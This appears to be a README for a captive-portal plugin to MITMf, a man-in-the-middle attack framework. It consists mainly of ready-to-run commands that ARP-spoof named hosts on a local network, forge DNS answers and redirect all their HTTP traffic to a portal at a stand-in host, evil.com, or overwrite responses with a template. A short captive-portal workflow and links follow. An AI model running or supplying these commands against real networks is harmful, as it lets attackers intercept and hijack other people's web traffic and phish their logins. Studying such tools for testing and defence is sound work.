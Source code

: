

# Commands

This command simply modifies all HTTP (80/tcp) and redirects them to portalurl.
`python mitmf.py -i wlan0 --spoof --arp --gateway 192.168.178.1 --targets 192.168.178.29,192.168.178.21 --portal --portalurl http://www.evil.com`

Additionally to the above, this command listens for DNS queries and responsed with a forged CNAME and A record to redirect to the portal host. Race condition exists, as the legitimate response is not filtered.
`python mitmf.py -i wlan0 --log-level info --spoof --arp --gateway 192.168.178.1 --targets 192.168.178.21,192.168.178.29 --portal --portalurl http://www.evil.com --portaldns`

This command modifies all HTTP (80/tcp) responses and overwrites everything with the static template.
`python mitmf.py -i wlan0 --log-level info --spoof --dns --arp --gateway 192.168.178.1 --targets 192.168.178.21,192.168.178.29 --portal --portaltemplate /root/Tools/MITMf/config/portal/test.html`

If your are running a wifi access point you can use the following command (no spoofing required).
`python mitmf.py -i wlan0 --log-level info --portal --portalurl http://www.evil.com`

# Workflow
1. Client associates to the AP
2. Client starts a browser and generates ARP/DNS/HTTP traffic
3. HTTP gets captured by the Controller and then redirected to External CP server URL
4. Client sends a HTTP GET to the External CP server
5. External CP server sends XML-API to query where this client is coming from so that the CP server can provide location-based information
6. Client sees the login page and clicks accept
7. External CP server takes the accept and then send the XML-API user add to the controller and have the user role change

# Links
## MITMf Intro
* [Introducing MITMf - A Framework for Man-In-The-Middle Attacks](http://sign0f4.blogspot.de/2014/07/introducing-mitmf-framework-for-man-in.html)

## Related Work
* [Evil Portal](https://github.com/frozenjava/evilportal)

